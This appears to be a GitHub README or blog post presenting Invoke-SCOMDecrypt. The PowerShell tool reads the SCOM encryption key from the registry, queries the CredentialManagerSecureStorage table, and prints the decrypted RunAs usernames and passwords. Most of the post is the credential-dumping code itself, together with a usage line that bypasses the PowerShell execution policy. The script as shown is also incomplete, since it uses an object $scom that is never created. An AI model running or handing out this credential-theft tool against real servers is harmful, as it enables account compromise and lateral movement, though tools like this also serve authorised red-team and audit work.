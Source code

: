 ```yaml
---
title: "Dectypting SCOM Credentials from the Database"
date: 2022-09-01 12:00:00 -0000
permalink: SCOMDecrypt
author: aleks
tags: SCOM
---
```

# Invoke-SCOMDecrypt

## Introduction ##

This tool is designed to retrieve and decrypt RunAs credentials stored within Microsoft System Center Operations Manager (SCOM) databases.

## Pre-requisites ##

To run the tool you will require administrative privileges on the SCOM server. You will also need to ensure that you have read access to the following registry key:

    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\MOMBins

You can check manually that you can see the database by gathering the connection details from the following keys:

    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\Database\DatabaseServerName
    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\Database\DatabaseName

## Usage ##

To run within the PowerShell console:

    powershell.exe -exec bypass
    . .\Invoke-SCOMDecrypt.ps1
    Invoke-SCOMDecrypt
    ...

## How the script works ##

Pre-requisite check to see if SCOM is installed
```ps1
	
	[string]$installDirectory = (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\System Center\2010\Common\Setup").InstallDirectory
	if (Test-Path $installDirectory)
	{
		$Full_Path = [System.IO.Path]::GetFullPath($installDirectory);
		[string]$PATH1 = [System.IO.Path]::GetFullPath("$Full_Path`Microsoft.Mom.Sdk.SecureStorageManager.dll")
		[System.Reflection.Assembly]::LoadFile($PATH1) | Out-Null
		[string]$PATH2 = [System.IO.Path]::GetFullPath("$Full_Path`Microsoft.EnterpriseManagement.DataAccessLayer.dll")
		[System.Reflection.Assembly]::LoadFile($PATH2) | Out-Null
	}
	else
	{
		Write-Host "[Critical Error] Unable to find installation directory of SCOM" -ForegroundColor Yellow
		return
	}
```
Get SQL information from the registry

```ps1
	Try
	{
		$reg = Get-ItemProperty "HKLM:SOFTWARE\Microsoft\System Center\2010\Common\Database" -erroraction stop
		$server = $reg.DatabaseServerName
		$database = $reg.DatabaseName
	}
	Catch [System.Management.Automation.ItemNotFoundException]
	{
		Write-Host "[Critical Error] Unable to detect SQL server"
		return
	}
	
	Try
	{
		$reg = Get-ItemProperty "HKLM:SOFTWARE\Microsoft\System Center\2010\Common\MOMBins" -erroraction stop
		$key = $reg.Value1
	}
	Catch [System.Management.Automation.ItemNotFoundException]
	{
		Write-Host "[Critical Error] Unable to find key"
		return
	}
```
Boiler plate code to connect to the Database and get the content 

```ps1
	$sqlCommand = "SELECT UserName, Data, Domain FROM dbo.CredentialManagerSecureStorage;"
	$connectionString = "Server=$server;Database=$database;Trusted_Connection=True;"
	$connection = new-object system.data.SqlClient.SQLConnection($connectionString)
	$command = new-object system.data.sqlclient.sqlcommand($sqlCommand, $connection)
	$connection.Open()
	$adapter = New-Object System.Data.sqlclient.sqlDataAdapter $command
	$dataset = New-Object System.Data.DataSet
	$adapter.Fill($dataSet) | Out-Null
	$connection.Close()
```
Now the interesting part to decrypt conent from Microsoft.EnterpriseManagement.Security.SecureStorageManager

```ps1
	for ($i = 0; $i -lt $dataset.Tables[0].Rows.Count; $i++)
	{
		if ($dataset.Tables[0].Rows[$i].Data -ne [System.DBNull]::Value -and $dataset.Tables[0].Rows[$i].Username -ne [System.DBNull]::Value)
		{
			$user = $dataset.Tables[0].Rows[$i].Username
			$passw = [System.Text.Encoding]::UTF8.GetString($scom.Decrypt($dataset.Tables[0].Rows[$i].Data))
			
			# Cleans up the spaces in the password
			$truePass = ""
			for ($j = 0; $j -lt $passw.Length; $j++)
			{
				if ($j % 2 -eq 0)
				{
					$truePass += $passw[$j]
				}
			}
			
			if ($domain -notlike "")
			{
				Write-Host "Username: $domain\$user"
				Write-Host "Password: $truePass"
			}
			else
			{
				Write-Host "Username: $user"
				Write-Host "Password: $truePass"
			}
			Write-Host " "
		}
	}
```

